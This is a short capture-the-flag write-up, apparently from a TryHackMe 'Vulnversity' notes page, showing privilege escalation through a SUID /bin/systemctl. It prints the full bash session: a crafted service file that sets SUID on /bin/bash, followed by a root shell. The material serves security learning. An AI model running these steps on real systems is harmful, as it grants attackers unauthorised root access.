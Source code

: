 ```yaml
---
layout: default
title: Systemctl
parent: SUID
nav_order: 7
---
```


# Systemctl

---

## Exploit /bin/systemctl

Checking GTFObins we have a path to privesc by exploiting _/bin/systemctl_

![systemctl](../../../../assets/images/ctfs/try_hack_me/vulnversity/systemctl.png)

We can exploit in the following manner by giving effective root privileges to _/bin/bash_

```bash
www-data@vulnuniversity:/tmp$ TF=$(mktemp).service
www-data@vulnuniversity:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/tmp$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.o6GKXSAfpc.service to /tmp/tmp.o6GKXSAfpc.service.
www-data@vulnuniversity:/tmp$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.o6GKXSAfpc.service to /tmp/tmp.o6GKXSAfpc.service.
www-data@vulnuniversity:/tmp$ bash -p
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3#

```
